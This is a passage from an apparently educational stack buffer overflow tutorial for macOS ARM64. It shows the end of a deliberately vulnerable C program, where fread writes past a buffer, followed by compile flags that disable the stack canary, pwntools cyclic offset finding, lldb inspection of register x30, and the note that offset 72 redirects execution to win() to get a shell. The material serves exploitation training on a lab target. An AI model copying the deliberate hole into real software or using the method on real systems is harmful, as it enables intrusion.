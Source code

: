 ```
        return;
    }
    // Vulnerability: no bounds check → stack overflow
    fread(buf, 1, 512, f);
    fclose(f);
    printf("[*] Copied payload from /tmp/exploit.txt\n");
}

int main(void) {
    // Unbuffered stdout so leaks are immediate
    setvbuf(stdout, NULL, _IONBF, 0);

    // Leak a different function, not main/win
    printf("[*] LEAK (leak_anchor): %p\n", (void*)&leak_anchor);

    // Sleep 3s
    sleep(3);

    vuln();
    return 0;
}
```
```
Compile without canary (in macOS you can't disable PIE):

```bash
clang -o bof_macos bof_macos.c -fno-stack-protector -Wno-format-security
```
```
### Find the offset

- Generate a pattern into the file `/tmp/exploit.txt`:

```bash
python3 - << 'PY'
from pwn import *
with open("/tmp/exploit.txt", "wb") as f:
    f.write(cyclic(200))
PY
```
```
- Run the program to cause a crash:

```bash
lldb ./bof_macos
(lldb) run
```
```
- Check register `x30` (the return address) to find the offset:

```bash
(lldb) register read x30
```
```
- Use `cyclic -l <value>` to find the exact offset:

```bash
python3 - << 'PY'
from pwn import *
print(cyclic_find(0x61616173))
PY
# Replace 0x61616173 with the 4 first bytes from the value of x30
```
```
- Thats how I found the offset `72`, putting in that offset the address of `win()` function you can execute that function and get a shell (running without ASLR).
```